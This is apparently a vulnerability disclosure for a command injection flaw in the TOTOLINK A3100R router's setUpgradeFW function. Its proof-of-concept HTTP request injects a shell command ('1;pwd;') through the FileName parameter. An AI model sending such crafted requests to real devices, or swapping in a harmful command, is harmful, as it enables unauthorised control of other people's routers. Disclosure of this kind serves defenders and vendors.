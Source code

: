 ## Totolink A3100R command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink A3100R
* Version: V4.1.2cu.5247_B20211129

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20220412/af5667441aa454891372a0823608aad1.rar

### Vulnerability details

Totolink A3100R V4.1.2cu.5247_B20211129 was found to contain a command injection vulnerability in the `setUpgradeFW` function via the `FileName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 136
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setUpgradeFW",
    "FileName": "1;pwd;"
}
```

